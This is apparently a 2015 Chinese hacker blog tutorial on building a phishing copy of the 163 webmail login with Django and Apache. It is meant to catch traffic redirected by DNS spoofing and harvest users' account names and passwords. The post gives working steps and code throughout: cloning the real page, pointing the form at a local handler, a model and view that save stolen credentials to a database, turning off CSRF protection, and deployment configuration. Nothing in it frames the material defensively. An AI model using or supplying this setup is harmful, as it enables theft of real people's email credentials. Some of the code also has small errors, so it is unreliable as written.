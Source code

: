 ```yaml
---
title:  "<font color='red'>[原创]</font> Apache2+Django搭建钓鱼网站"
date:   2015-08-22 15:13:23
categories: [黑客,原创]
tags: [黑客,原创]
---
```


*使用Apache2和Django框架搭建163邮箱的钓鱼网站，用于DNS欺骗后将访问163邮箱网站的流量定向到钓鱼网站，并获取邮箱账号和密码*

## 安装Django
---

通过pip安装：

	$ pip install django

---

## 搭建钓鱼网站
---

### 准备工作

* 用PyCharm生成Django工程，工程名为phisher，在工程根目录创建一个app，app名为mail：

		$ django-admin.py startapp mail

* 在生成的mail目录中创建static和templates文件夹，分别用于存放静态文件(css, js, 图片等)和网页文件(html)

* 在mail/static和mail/templates中创建163文件夹，用于存放163邮箱网页相关静态文件和网页文件

---

### 修改网页文件

* 进入[http://mail.163.com/](http://mail.163.com/)网页，右键，保存所有网页文件

* 修改html文件，删减无用代码，删除js，使其成为一个静态页面

* 替换精简后的html文件中的链接为本地静态文件：

		{% raw %}
		<!DOCTYPE html>
		{% load static %}
		<html>
		<img src="{% static '163/163logo.gif' %}"></a>
		<link rel="stylesheet" type="text/css" href="{% static '163/loginpage.css' %}">
		...
		</html>
		{% endraw %}

* 修改表单响应：

		<form action="/mail/163/login/" method="post">
		...
			<input type="text" name="account">
			<input type="password" name="password">
			<input type="submit">
		...
		</form>

* 如碰到iframe：

		<iframe rc="/mail/163/login/"></iframe>

---

### 编写逻辑文件

* 编写mail/models.py文件，定义数据库记录对象：
	
```python	
# coding:utf-8
from __future__ import unicode_literals

from django.db import models


class Phishee(models.Model):
    account = models.CharField(max_length=30)
    password = models.CharField(max_length=30)
    timestamp = models.DateTimeField(auto_now=True)
    other = models.TextField()

    def __unicode__(self):
        return self.account

    class Meta:
        db_table = 'phishee'			# 指定表名
```

编写完后同步数据库

	$ python manage.py makemigrations
	$ python manage.py migrate


* 编写mail/view.py文件：

```python
# coding:utf-8
from django.shortcuts import render_to_response
from django import forms

from mail.models import Phishee


class PhisheeForm(forms.Form):
    account = forms.CharField()
    password = forms.CharField()


def index_163(request):
    return render_to_response('163/index.html')


def login_163(request):
    if request.method == 'POST':
        form = PhisheeForm(request.POST)
        form.is_valid()
        cdata = form.cleaned_data
        phishee = Phishee(
            account=cdata['account'],		# 'account'与表单中input对应
            password=cdata['password']		# 'password'与表单中input对应
        )
        print phishee.account, phishee.password
        victim.save()						# 存入数据库等其他逻辑
    else:
        form = PhisheeForm()
    return render_to_response('163/login.html')
```

---

### 修改配置文件

* 修改phisher/settings.py文件：

		ALLOWED_HOSTS = ['*']		# 允许所有IP地址访问
		INSTALLED_APPS = [
		    ...,
		    'mail',					# 注册app
		]
		# 注释掉防止跨站请求伪造的中间件CsrfViewMiddleware
		MIDDLEWARE = [
			...,
		    #'django.middleware.csrf.CsrfViewMiddleware',
		    ...
		]
		# 修改数据库
		DATABASES = {
		    'default': {
		        'ENGINE': 'django.db.backends.mysql',
		        'NAME': '??',
		        'USER': '??',
		        'PASSWORD': '??',
		        'HOST': '127.0.0.1',
		        'PORT': '3306',
		    }
		}
		TIME_ZONE = 'Asia/Shanghai'	# 修改时区
		USE_TZ = False


* 修改phisher/url.py文件：

		urlpatterns = [
		    url(r'^static/(?P<path>.*)$', static_views.serve),
		    url(r'^admin/', admin.site.urls),
		    url(r'^mail/163/index/$', views.index_163),
		    url(r'^mail/163/login/$', views.login_163),
		    url(r'^', views.index_163),
		]

---

### 测试

		$ manage.py runserver 8000

用浏览器打开[127.0.0.1:8000](27.0.0.1:8000)

---

## 使用Apache24运行CGI程序
---

* 在/usr/local/etc/apache2/2.4/httpd.conf文件末尾添加：

		# 添加mod_wsgi.so模块
		LoadModule wsgi_module libexec/mod_wsgi-py27.so

		# 指定项目的wsgi.py配置文件路径  
		WSGIScriptAlias / /Users/wuyinan/Projects/python/phisher/phisher/wsgi.py

		# 指定项目路径  
		WSGIPythonPath /Users/wuyinan/Projects/python/phisher

		<Directory "/Users/wuyinan/Projects/python/phisher">
		  <Files wsgi.py>
		    Order deny,allow
		    Allow from all  
		  </Files>
		</Directory>

		# 指定Log路径
		ErrorLog /Users/wuyinan/Projects/python/phisher/log/error.log
		LogLevel warn
		CustomLog /Users/wuyinan/Projects/python/phisher/log/access.log combined

* 测试：

		$ sudo apachectl start

	用浏览器打开[127.0.0.1](27.0.0.1)

	![测试界面](/assets/2015-08-22-1.jpeg "测试界面")
